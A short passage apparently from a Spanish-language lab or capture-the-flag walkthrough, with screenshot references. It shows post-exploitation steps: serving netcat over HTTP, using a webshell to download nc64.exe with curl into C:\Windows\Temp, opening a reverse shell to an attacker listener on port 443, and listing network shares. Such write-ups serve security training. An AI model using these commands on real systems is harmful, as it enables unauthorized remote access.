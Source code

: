 Comparto carpeta con netcat
python3 -m http.server 80
Verifico que el equipo tiene curl

![Texto alternativo](imgs/29.jpg)

Desde webshell

curl http://10.10.14.10/nc64.exe -o C:\WIndows\TEmp\nc64.exe

Equipo atacante
rlwrap nc -nlvp 443

Desde Web shell
C:\Windows\Temp\nc64.exe -e cmd 10.10.14.10 443

![Texto alternativo](imgs/30.jpg)

net share

![Texto alternativo](imgs/31.jpg)

* Cambio de unidad --> w:
* dir
